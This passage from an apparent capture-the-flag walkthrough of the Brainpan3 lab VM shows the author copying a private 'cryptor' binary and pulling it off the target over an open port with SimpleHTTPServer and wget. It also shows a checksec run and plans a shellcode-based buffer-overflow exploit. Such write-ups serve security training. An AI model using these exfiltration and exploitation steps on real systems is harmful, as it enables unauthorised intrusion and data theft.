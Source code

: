 So we can execute the `cryptor` binary. Let's try to look at this binary:

```
anansi@brainpan3:/$ $ cd ~
cd ~
anansi@brainpan3:/home/anansi$ $ cp /home/reynard/private/cryptor .
cp /home/reynard/private/cryptor .
anansi@brainpan3:/home/anansi$ $ ls -la
```

Let's pull this binary off Brainpan3 and onto our local machine. It looks like we are only allowed port `8080` out of the server. If we don't activate the code repo (Command `2`), then we can pull files off via Python's built in web server.

```
anansi@brainpan3:/home/anansi$ $ python -m SimpleHTTPServer 8080
python -m SimpleHTTPServer 8080
```

On our host:

```
wget http://192.168.224.154:8080/cryptor
```

And now we have our binary:

```
192.168.224.156 - - [10/Sep/2015 06:36:19] "GET / HTTP/1.1" 200 -
192.168.224.156 - - [10/Sep/2015 06:36:25] "GET /cryptor HTTP/1.1" 200 -
```

Quick sanity check for the `cryptor` binary:
```
ctf@ctf-barberpole:~/ctfs/brainpan3/files$ checksec cryptor
[*] '/home/ctf/ctfs/brainpan3/files/cryptor'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```

Awesome, no canary and no NX. This means, assuming we can find a buffer overflow, we can jump back to our shellcode on the stack/heap and execute our payload from there, avoiding ROP or other shenanigans.

Looking at the binary in IDA, we can see a buffer overflow condition. We see a buffer that is allocated 100 bytes.
